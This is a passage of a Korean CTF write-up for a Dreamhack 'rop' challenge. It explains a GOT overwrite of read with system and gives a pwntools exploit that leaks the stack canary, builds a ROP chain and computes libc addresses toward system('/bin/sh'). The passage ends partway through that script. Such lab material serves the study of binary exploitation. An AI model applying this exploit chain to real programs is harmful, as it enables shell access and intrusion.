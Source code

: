 * rsi에 **read@got** 주소를 넣으므로, read 호출 시, **read@got**를 호출한다. 이 때, 해당 값을 **system@got(system의 주소)**를 넣게 된다면 `system`를 호출하게 된다.

### Stack

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/193451995-1ee666fc-d8c3-4362-9059-fa6f6a891f14.jpg" width = 350>
</p>

### Exploit

해당 코드들을 payload 순서에 맞게 적절히 넣어서 실행하면 된다.

```python
from pwn import *

context.log_level = 'debug'

def slog(name, addr):
        return success(": ".join([name, hex(addr)]))

p = process('./rop') # remote Dreamhack
e = ELF("./rop")
#libc = ELF("./libc-2.27.so")
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
r = ROP(e)

# [1] Leak Canary
buf = b'A'*57
p.sendafter("Buf: ", buf)
p.recvuntil(buf)
canary = u64(b'\x00'+p.recvn(7))
slog("Canary", canary)

# [2] Exploit
read_plt = e.plt['read']
read_got = e.got['read']
puts_plt = e.plt['puts']
pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
#pop_rdi = 0x00000000004007f3
pop_rsi_r15 = r.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]
#pop_rsi_r15 = 0x00000000004007f1

payload = b'A'*56 + p64(canary) + b'B'*8

# puts(read@got)
payload += p64(pop_rdi) + p64(read_got) # puts(read@got)
payload += p64(puts_plt)        # puts(read@got) 호출

# read(0, read@got, 0) => read@got -> system
payload += p64(pop_rdi) + p64(0)        # read(0, , )
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)    # read(0, read@got, 0)
payload += p64(read_plt)        # read(0, read@got, 0) 호출
# read("/bin/sh") => system("/bin/sh")
payload += p64(pop_rdi)
payload += p64(read_got + 0x8)    # read 함수의 첫번째 인자 값 ("/bin/sh") read_got+0x8 : read_got 시 사용될 인자
payload += p64(read_plt)        # read("/bin/sh") 호출

p.sendafter("Buf: ", payload)   # puts()와 read got를 이용해서 read() 주소 출력
read = u64(p.recvn(6)+b'\x00'*2)      # 화면에 출력된 read() 주소를 read에 대입
lb = read - libc.symbols["read"]        # libc base = read 주소 - read symbols
system = lb + libc.symbols["system"]    # system = libc base + system symbols
slog("read.symbols", libc.symbols["read"])
slog("read", read)
```